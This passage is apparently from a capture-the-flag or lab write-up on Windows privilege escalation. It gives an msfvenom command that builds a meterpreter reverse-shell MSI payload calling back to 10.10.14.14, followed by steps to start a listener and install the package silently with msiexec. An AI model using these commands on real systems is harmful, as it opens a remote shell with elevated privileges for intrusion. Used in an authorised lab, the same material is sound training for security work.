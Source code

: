- So, the value of those `2 registers are in facts 0x1`
- Now, we know we can exploit it. 

## Generate MSI files
- So, I'm gonna generate `MSI package file` with `msfvenom`.

```bash
msfvenom -p windows/meterpreter/reverse_tcp lhost=10.10.14.14 lport=9902 -f msi > lol.msi
```

- After successfully generate the files
- Then, `upload` the file into the target machine.

### exploit/multi/handler
- Before we can execute it.
- We need to set up the `"listener"` for our meterpreter reverse shell

![1](multi-handler.png)

### Execute the MSI file
- Let's execute those files
```bash
msiexec /quiet /qn /i lol.msi
# flags explain
/quiet = Suppress any messages to the user during installation
/qn = No GUI
/i = Regular (vs.administrative) installation
```

- the result
